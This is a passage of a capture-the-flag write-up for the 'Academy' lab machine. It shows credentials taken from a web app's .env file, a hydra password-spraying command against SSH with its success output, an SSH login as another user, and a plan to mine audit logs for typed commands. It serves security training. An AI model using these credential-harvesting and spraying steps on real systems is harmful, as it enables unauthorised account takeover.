 ## Escalating to cry0l1t3 

* running `linpeas` script found nothing except that `.env` file form `/var/www/html/academy/` directory that contains some passwords .
* **.env** file contains creds for local sql database

      DB_CONNECTION=mysql
      DB_HOST=127.0.0.1
      DB_PORT=3306
      DB_DATABASE=academy
      DB_USERNAME=dev
      DB_PASSWORD=mySup3rP4s5w0rd!!

* but not able to login into the database using these creds
* try spraying that password to all users with `hydra` for ssh login,

    `hydra -L users.txt -P password.txt 10.10.10.215 -t 4 ssh`

      [DATA] attacking ssh://10.10.10.215:22/
      [22][ssh] host: 10.10.10.215   login: cry0l1t3   password: mySup3rP4s5w0rd!!
      1 of 1 target successfully completed, 1 valid password found


*thats why i thought that founding `.env` file from [gobuster]() is unintended*

### creds 
`cry0l1t3:mySup3rP4s5w0rd!!`

* **ssh** 

    `ssh cry0l1t3@10.10.10.215`

      cry0l1t3@10.10.10.215's password: mySup3rP4s5w0rd!!
      $ bash
      cry0l1t3@academy:~$ cat user.txt
      ea657863************************

## Escalating to mrb3n

* user **cry0l1t3** is in `adm` group 

      cry0l1t3@academy:~$ groups
      cry0l1t3 adm
      cry0l1t3@academy:/home$ id
      uid=1002(cry0l1t3) gid=1002(cry0l1t3) groups=1002(cry0l1t3),4(adm)

* **adm group :** adm Group is used for system monitoring tasks. Members of this group can read many log files in /var/log, and can use xconsole. Historically, /var/log was /usr/adm (and later /var/adm), thus the name of the group.
  * that means user **cry0l1t3** can read system logs.
  * understand all types of log in linux by [privacyangel.com](https://privacyangel.com/linux-log-files)
* there is a `audit log` dir which is suspiciou.
  * **[audit log](https://sematext.com/blog/auditd-logs-auditbeat-elasticsearch-logsene/) :** can use to learn about user activity, which could be used to boost efficiency, security, and performance.
  * audit logs create by linux [auditclt](https://linux.die.net/man/8/auditctl) service.
* **Note :** that audit logs store users commands inputs in `DATA` field in `hex` form.

